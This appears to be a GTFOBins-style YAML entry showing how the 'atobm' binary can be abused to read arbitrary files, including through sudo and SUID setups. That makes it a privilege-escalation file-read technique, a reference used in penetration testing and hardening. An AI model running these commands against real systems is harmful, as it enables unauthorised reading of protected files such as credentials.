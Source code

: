 ```yaml
---
description: Outputs the first line of the file to standard error without the `-` and `#` characters, this can be customized with the `-c` option, by default is `-c -#`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
  sudo:
    - code: |
        LFILE=file_to_read
        sudo atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
  suid:
    - code: |
        LFILE=file_to_read
        ./atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
---
```

